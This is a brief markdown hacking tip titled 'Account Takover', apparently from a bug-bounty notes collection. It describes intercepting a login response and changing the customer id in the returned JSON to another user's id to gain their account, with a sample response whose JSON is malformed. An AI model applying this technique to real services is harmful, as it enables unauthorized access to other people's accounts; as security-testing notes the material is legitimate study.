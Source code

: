 ### Account Takover


##### Tips 1
1. Login with original user 
2. Intercept Response 
3. **{"success":false,","data":{"address":[],"customer":{"id":318620,"full_name":null,"email":original@gmail.com","phone":"+62xxxxxxxxxxx","is_login":1,"last_login":"2021-04xxxxxxx","created_at":2021-04xxxxxx,"updated_at":2021-04xxxxx}},"message":"Csutomer login successfully"}**
4. Change **"id":"318620"** To Another ID exp.318621

---

